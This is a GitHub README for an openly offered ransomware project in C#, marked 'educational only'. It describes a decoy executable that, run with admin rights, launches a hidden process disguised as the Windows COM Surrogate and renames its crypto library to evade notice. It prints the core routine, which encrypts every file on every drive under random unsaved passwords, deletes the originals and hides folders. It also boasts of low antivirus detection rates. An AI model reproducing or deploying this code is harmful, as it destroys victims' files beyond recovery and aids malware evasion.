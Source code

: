 # Ransomware

Ransomware is a project written in .Net Framework 4.8 and shows how ransomeware generally works. This repository should be used for educational reasons only!!

[![Build status](https://ci.appveyor.com/api/projects/status/m435h8vg3m6uwdv2?svg=true)](https://ci.appveyor.com/project/SeppPenner/ransomware)
[![GitHub issues](https://img.shields.io/github/issues/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/issues)
[![GitHub forks](https://img.shields.io/github/forks/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/network)
[![GitHub stars](https://img.shields.io/github/stars/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/stargazers)
[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://raw.githubusercontent.com/SeppPenner/Ransomware/master/License.txt)
[![Known Vulnerabilities](https://snyk.io/test/github/SeppPenner/Ransomware/badge.svg)](https://snyk.io/test/github/SeppPenner/Ransomware)

## Folders
The [Setup](https://github.com/SeppPenner/Ransomware/blob/master/Setup) folder contains a [Inno Setup](http://www.jrsoftware.org/isinfo.php) script and the installer.

The [BeforeSetup](https://github.com/SeppPenner/Ransomware/blob/master/BeforeSetup) folder contains the files the setup installs.

The [Projects](https://github.com/SeppPenner/Ransomware/blob/master/Projects) folder contains the C# source code.

## The stuff behind
The **LustigeFehler.exe** file is the main exe. It will start and show some nonsense error messages.

If it's not run in admin mode, it will crash with an error. If the .exe is started in admin mode, it will start up a new hidden (can't be seen in the taskbar or as GUI) process called
[COM Surrogate](https://github.com/SeppPenner/Ransomware/blob/master/Projects/COM%20Surrogate) in the background.

Why **COM Surrogate**? - Because noone will ever expect a [standard Windows process](https://www.howtogeek.com/326462/what-is-com-surrogate-dllhost.exe-and-why-is-it-running-on-my-pc/) is running as a virus.
In the background, the our **Fake COM Surrogate.exe** will run and try to encrypt all files on all drives it finds.

Additionally, it will **hide** all folders it finds. Furthermore, the AES crypto library is obfuscated to the name **msvpc.dll** to avoid that suspicious users (who take a look into the install folder) get more suspicious.

How is this possible? - The following lines of code taken from [Main.cs](https://github.com/SeppPenner/Ransomware/blob/master/Projects/COM%20Surrogate/COM%20Surrogate/Main.cs) show the main **ransomware** code.
```csharp
private string GetRandomPassword()
{
   var alg = SHA512.Create();
   alg.ComputeHash(Encoding.UTF8.GetBytes(DateTime.Now.ToLongDateString() + _random.Next(int.MaxValue)));
   return BitConverter.ToString(alg.Hash);
}

private void Run()
{
   foreach (var drive in DriveInfo.GetDrives())
   {
      try
      {
         EncryptFs(drive.Name);
      }
      catch
      {
         // ignored
      }
   }
}

private void EncryptFs(string directory)
{
   foreach (var file in Directory.GetFiles(directory))
   {
      try
      {
         if (file == null) continue;
         Msvpc.UseE(GetRandomPassword(), file,
            Path.Combine(directory, Path.GetFileNameWithoutExtension(file)) + Resources.Ending);
         File.Delete(file);
      }
      catch
      {
         // ignored
      }
   }

   foreach (var dir in Directory.GetDirectories(directory))
   {
      HideDirectory(dir);
      EncryptFs(dir);
   }
}

private void HideDirectory(string dir)
{
   var di = new DirectoryInfo(dir);
   if ((di.Attributes & FileAttributes.Hidden) != FileAttributes.Hidden)
   {
      di.Attributes |= FileAttributes.Hidden;
   }
}

private bool IsElevated()
{
   var id = WindowsIdentity.GetCurrent();
   return id.Owner != id.User;
}
```

## Virustotal.com scans
Well, let's see what [virustotal.com](https://www.virustotal.com) shows us as information on this "virus":

* The dllhost.exe: https://www.virustotal.com/#/file/ff946d2667b9a51b477d3abcdb12177b732c27901e199731cfe21f9430fba568/detection -->  9 / 57 detections --> Very poor :D
* The LustigeFehler.exe: https://www.virustotal.com/#/file/18436c0625daad52a141eeb9f4d4cbfd94e54264fa949ec9597c84c4ad0b39bb/detection --> 0 / 57 detections, which is ok. It's clean.
* The LustigeFehler-Setup.exe: https://www.virustotal.com/#/file/31f5447fa6c498ab526f1686cb77778f41223d6783ccba4298f9580ce8dfa055/detection --> 11 / 58 detections --> Very poor :D

## Hint
Please don't try this software on your PC. It's for educational purposes only!!!!!!

Change history
--------------

* **Version 1.0.1.0 (2019-10-27)** : Updated nuget packages, added GitVersionTask.
* **Version 1.0.0.1 (2019-05-07)** : Updated .Net version to 4.8.
* **Version 1.0.0.0 (2018-01-08)** : 1.0 release.
